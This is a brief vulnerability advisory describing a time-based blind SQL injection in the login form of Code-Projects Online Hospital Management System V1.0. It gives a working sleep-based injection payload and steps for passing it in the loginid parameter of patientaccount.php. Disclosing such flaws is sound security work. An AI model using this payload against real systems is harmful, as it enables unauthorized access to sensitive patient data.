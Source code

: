 ## Description

Code-Projects Online Hospital Management System V1.0 is vulnerable to SQL Injection (SQLI) attacks, which allow an attacker to manipulate the SQL queries executed by the application. The application fails to properly validate user-supplied input in the login id and password fields during the login process, enabling an attacker to inject malicious SQL code.
</br>

**Exploit Title:** Code-Projects Online Hospital Management System V1.0 - Time-Based Blind Sqli

**Exploit Author:** Ritesh Sahu

**Vendor Homepage:** https://code-projects.org/ 

**Software Link:** https://code-projects.org/online-hospital-management-system-in-php-with-source-code/

**Tested on:** Linux

## Steps to Reproduce

use payload(url encode it)= ```1' AND (SELECT 5751 FROM (SELECT(SLEEP(5)))LCFS) AND 'huWh'='huWh```

1.  Visit- http://localhost/Hospital/patientaccount.php
2.  Pass the above payload in loginid parameter and observe the response time.
